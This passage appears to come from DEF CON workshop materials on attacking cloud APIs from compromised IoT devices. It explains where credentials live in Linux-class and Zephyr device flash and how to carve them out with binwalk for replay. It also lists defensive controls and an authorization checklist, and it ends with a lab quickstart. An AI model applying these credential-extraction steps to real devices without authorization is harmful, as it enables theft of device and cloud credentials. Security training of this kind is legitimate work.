| **Tenant isolation / IAM** | Cross-tenant access, over-broad roles, SigV4 key reuse | awscli, enumerate-iam, Pacu | Med–High |

---

## 9. IoT device filesystem layouts and Zephyr RTOS storage

To pull credentials off "the compromised device," you have to know **where bytes live**. Two broad
device classes store things very differently.

### A) Linux-class IoT (gateways, cameras, richer devices)

These boot a real kernel and mount a filesystem, so the layout looks familiar once you dump flash:

```
  Typical raw-flash / eMMC partition map
  bootloader     U-Boot (+ SPL)
  env            U-Boot environment variables
  kernel         uImage / zImage / FIT
  rootfs         SquashFS  (compressed, READ-ONLY)
  overlay/data   UBIFS / JFFS2 / ext4  (READ-WRITE)
  (A/B variants) second copy of kernel+rootfs for OTA
```

- **Common filesystems:** **SquashFS** (compressed read-only rootfs — the classic place to find
  hardcoded secrets in `/etc`), **JFFS2 / UBIFS / YAFFS** (built for raw NAND flash), **ext4** (on
  eMMC), and **overlayfs / tmpfs** for the writable layer; OTA devices often carry **A/B
  (dual-bank)** partitions.
- **Where the loot is:** dump flash → `binwalk` to carve partitions → extract the SquashFS → read
  `/etc`, init scripts, and app config for **API endpoints, X.509 client certs/keys, hardcoded
  tokens, and Wi-Fi/cloud credentials**. That material is what you replay against the broker and
  REST API (Section 6).

### B) MCU / RTOS-class IoT (constrained, no MMU) — including Zephyr

Constrained microcontrollers usually have **no general-purpose filesystem**. Storage is a set of
**fixed flash partitions** declared in the device tree, written through purpose-built subsystems.
In **Zephyr RTOS** the relevant storage types are:

| Zephyr storage type | What it is | Typical contents |
|---|---|---|
| **NVS** (Non-Volatile Storage) | Key/value store on a flash partition, with wear-leveling | Config, calibration, **credentials / keys** — most common secret store |
| **Settings subsystem** | Higher-level persistent key/value API; backed by NVS, FCB, or a filesystem | BLE bonding/long-term keys, network creds, app settings |
| **FCB** (Flash Circular Buffer) | Append-only circular log on flash | Event logs, telemetry buffers |
| **LittleFS** | Power-loss-resilient, wear-leveling filesystem via Zephyr's FS layer | Files, larger blobs |
| **FatFs (FAT)** | FAT filesystem, usually on external SD / eMMC | Bulk data on removable media |
| **Flash map / `fixed-partition`** | DTS-defined partitions that *back* the above | Defines *where* NVS/settings and firmware images sit |

```
  Representative Zephyr flash partition map (DTS fixed-partitions)
  boot_partition      bootloader (e.g., MCUboot)
  slot0_partition     running application image
  slot1_partition     staged update image
  storage_partition   backs NVS / settings  ← credentials live here
```

- **Where the loot is:** the prize is usually the **`storage_partition`** — carve it from a flash
  dump and parse the **NVS / settings** records to recover device certs/keys, **DTLS PSKs**
  (Section 5), Wi-Fi credentials, and cloud tokens. No `/etc` to grep — you're parsing key/value
  records out of raw flash. The `slot0`/`slot1` partitions are just the firmware image banks;
  for *credential* recovery, the storage partition is the target.

> **Instructor note:** this is the one place Zephyr belongs in this lecture — as an example of
> *where secrets live on a constrained device*. 

---

## 10. What good looks like — defensive counterpoint

Every offensive finding has a corresponding control. Worth stating so attendees can advise as well
as attack:

- **Least-privilege topics/ACLs** — per-device namespace, no `#`/`+` wildcards, no publish outside
  the device's own topics.
- **Per-device, short-lived credentials** — unique per device, rotated, revocable on compromise;
  never a fleet-shared secret.
- **Mutual TLS with per-device certs**, and secrets in a **secure element / protected flash**, not
  plaintext NVS.
- **Strong object- and function-level authorization** on the REST API — explicitly test for
  BOLA/IDOR and BFLA.
- **Validated tenant isolation** — cross-tenant access tests as part of QA.
- **For self-hosted brokers** (Mosquitto/EMQX/HiveMQ) — disable anonymous access, enforce TLS,
  patch the broker, and design real auth + ACLs rather than relying on defaults.

---

## 11. Authorization, scope & responsible disclosure

```
  BEFORE YOU TOUCH ANYTHING IN THIS WORKSHOP:
  [ ] All activity stays inside the isolated lab tenant + instructor-provided device
  [ ] You do NOT point any tool at production, third-party, or shared tenants
  [ ] No attacks on the conference network (against policy)
  [ ] On real engagements: written authorization + scope before testing
  [ ] Cloud providers have their own pentest/acceptable-use rules — follow them
```

- If you find a real vulnerability in a cloud/IoT product, **disclose it responsibly** through the
  vendor's process.
- *I'm not a lawyer — this is general guidance, not legal advice.*

---

## 12. Tooling reference

| Domain | Tools |
|---|---|
| REST / HTTP | **Burp Suite CE** (proxy, Repeater), mitmproxy, ffuf |
| MQTT | mosquitto_pub / mosquitto_sub, MQTT Explorer, MQTTX, mqtt-pwn, Paho (Python) |
| CoAP / DTLS | libcoap (`coap-client`), aiocoap, `openssl s_client -dtls` |
| Cloud (AWS) | awscli, enumerate-iam, Pacu |
| Firmware / storage | binwalk, strings / xxd, NVS/settings parsers, flash-dump tooling (per lab) |

> Burp covers the REST plane; the MQTT and CoAP/DTLS rows are where you step outside it.

---

## 13. Key takeaways

- **We start from a compromised device and end in the cloud tenant.** The credential on the device
  is the credential to the cloud, and the gaps we exploit are the customer's, not the provider's.
- **REST is the management/app plane; MQTT (and CoAP) is the device data plane.** The bridge
  between them is the attack path.
- **Your web tooling transfers to the REST side.** Burp Suite CE owns HTTP/HTTPS/WebSocket;
  native MQTT and CoAP/DTLS need broker- and datagram-aware tools.
- **UDP changes the security story.** CoAP/DTLS re-implements reliability and adds a cookie
  exchange, and it doesn't intercept like TCP TLS.
- **Authentication ≠ authorization.** The big findings are authorization failures — BOLA/IDOR,
  over-broad IoT policies, weak tenant isolation, long-lived or fleet-shared credentials.
- **Managed vs self-hosted shifts responsibility.** With AWS IoT Core the provider runs the
  broker; with self-managed Mosquitto/EMQX/HiveMQ the customer owns the broker, TLS, and ACLs too
  — and the defaults are often weaker.
- **Credentials live in predictable places.** SquashFS `/etc` on Linux-class devices; the Zephyr
  **`storage_partition`** (NVS/settings) on MCU-class devices.

---

*Concepts/architecture briefing for DEF CON 34 Workshop — Attacking Cloud APIs from the IoT Edge.
Hands-on labs, fuzzing harnesses, and exploit walkthroughs are covered in the separate lab guide.*

- Created with assistance from Claude AI with all content reviewed by the human responsible for this workshop.
````

### `DEF CON 34 - Workshops - Rodney - BenevolentWorm - Beede - Attacking Cloud APIs from the IoT Edge - Student Resources/edge-to-cloud-pwn/documentation/quickstart.md`

````markdown
## Quickstart — one setup for every laptop

The whole lab runs inside **one Ubuntu Desktop guest VM** under VMware, regardless of host OS.
That guest runs the Docker stack **and** Burp + the tools, so no reliance on Internet or WiFi is required once you've built the VM and installed the lab.

1. **Install VMware** (free for personal use):
   * Windows / Linux laptop → **VMware Workstation Pro**
   * macOS laptop → **VMware Fusion**

2. **Get the Ubuntu 26.04 LTS Desktop guest VM.** Two paths — pick one:

   **Option A — import the pre-built OVA (recommended, fastest):**
   The instructor provides `defcon34-iot-lab-amd64.ova` (Intel/AMD) or
   `defcon34-iot-lab-arm64.ova` (Apple Silicon). Double-click the OVA or use
   File → Import. The VM boots lab-ready: Docker, recon tools, Burp CE, and all Docker
   images are pre-built — no internet needed at the workshop. **Skip steps 3 and 6 — go
   straight to step 4.**

   **Option B — build from ISO yourself:**
   Create an Ubuntu 26.04 LTS Desktop guest (8 GB RAM, 4 vCPU, 60 GB disk). Pick the ISO
   that matches the **laptop's CPU**:
   * Intel/AMD laptop (most Windows, Linux, Intel Macs) → **Ubuntu Desktop amd64**
   * Apple-Silicon Mac (M1–M4) → **Ubuntu Desktop arm64** (Fusion cannot run x86 guests)

   Automated build scripts are in `build-scripts/automation/` (Packer + VMware).

3. **Provision the guest** *(Option B / manual install only — OVA users skip this):*
   ```bash
   sudo bash build-scripts/scripts/bootstrap_lab_vm.sh
   ```

4. **Activate the docker group** *(required for both OVA and manual install):*
   The `lab` user is already a member of the `docker` group, but the current shell session
   won't see it until you run:
   ```bash
   newgrp docker            # or log out and back in
   ```

5. **Verify the environment:**
   ```bash
   bash build-scripts/scripts/check_env.sh
   ```

6. **Install Burp Suite Community Edition** *(Option B / manual install only — OVA users skip
   this, Burp is pre-installed):*
   Download from PortSwigger — **Linux (x64)** on an amd64 guest, **Linux (ARM)** on an arm64
   guest. CE is free (no license key). `bootstrap_lab_vm.sh` already configured `authbind` so
   Burp can bind to port 443 without sudo — see `02-burp-interception.md` for the launch command.

7. **Start the range:**
   ```bash
   docker compose up -d
   docker compose --profile attacker up -d attacker
   ```

Build setup notes (VMware settings, networking, Burp install) is in
[labguide/build-notes-networking-vmware.md](labguide/build-notes-networking-vmware.md).
Then work through [labguide/00-setup.md](labguide/00-setup.md) → `06-lateral-movement.md`.
A one-page map of every listening port and the lab it belongs to is in [labguide/PORTS.md](labguide/PORTS.md).
````
